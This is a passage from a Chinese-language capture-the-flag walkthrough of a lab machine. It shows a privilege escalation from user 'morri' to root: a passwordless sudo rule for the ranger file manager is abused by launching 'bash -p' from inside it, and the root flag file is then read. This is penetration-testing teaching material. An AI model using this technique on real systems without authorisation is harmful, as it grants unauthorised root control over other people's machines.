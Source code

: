 **结果：** 成功切换到 `morri` 用户并读取 `user.txt`，获取第一个 flag。

### 3.2 权限提升：morri -> root

#### 3.2.1 Sudo 权限检查 (morri)

检查 `morri` 用户的 `sudo` 权限：

```bash
morri@Qingmei:~$ sudo -l
Matching Defaults entries for morri on Qingmei:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User morri may run the following commands on Qingmei:
    (ALL) NOPASSWD: /usr/bin/ranger
```

**发现：** `morri` 用户可以无密码以 `root` 权限执行 `/usr/bin/ranger`。

#### 3.2.2 利用 `ranger` 提权

`ranger` 是一个终端文件管理器，可以通过其内置的 shell 执行功能来获取 `root` shell。

1. 执行 `sudo /usr/bin/ranger`。

   ```bash
   morri@Qingmei:~$ sudo /usr/bin/ranger
   ```

2. 在 `ranger` 界面中，按下 `s` 键 (或 `:`) 进入命令模式。

3. 输入 `bash -p` (或 `sh -p`) 并回车。参数 `-p` 确保 `bash` 以特权模式（effective UID as root）启动。

执行后，成功返回一个 `root` shell。

```bash
# 此处已是 root shell
root@Qingmei:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Qingmei:~# cat /root/root.txt
flag{root-485ee7a8-33f0-11f0-afbc-000c2955ba04}
```

**结果：** 成功获取 `root` 权限并读取 `root.txt`，获取第二个 flag。

